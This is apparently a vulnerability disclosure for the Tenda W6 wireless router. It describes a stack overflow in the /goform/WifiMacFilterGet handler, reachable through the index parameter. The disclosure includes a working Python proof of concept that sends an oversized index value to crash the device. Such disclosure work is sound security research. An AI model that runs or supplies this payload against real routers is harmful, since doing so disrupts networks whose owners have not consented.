 # Tenda W6 Stack Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A stack overflow vulnerability exists in /goform/WifiMacFilterGet in Tenda W6 V1.0.0.9(4122) version, which can be exploited by attackers to cause a denial of service (DoS) via the index parameter.

The firmware can be downloaded at: https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability Location
/goform/WifiMacFilterGet

formWifiMacFilterGet()  Function

![image-20220708141723625](pic/image-20220708141723625.png)

![image-20220708141752749](pic/image-20220708141752749.png)



![image-20220708141838963](pic/image-20220708141838963.png)

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/WifiMacFilterGet"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x140

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [Please see the video for the demonstration process](./video/1.mp4)

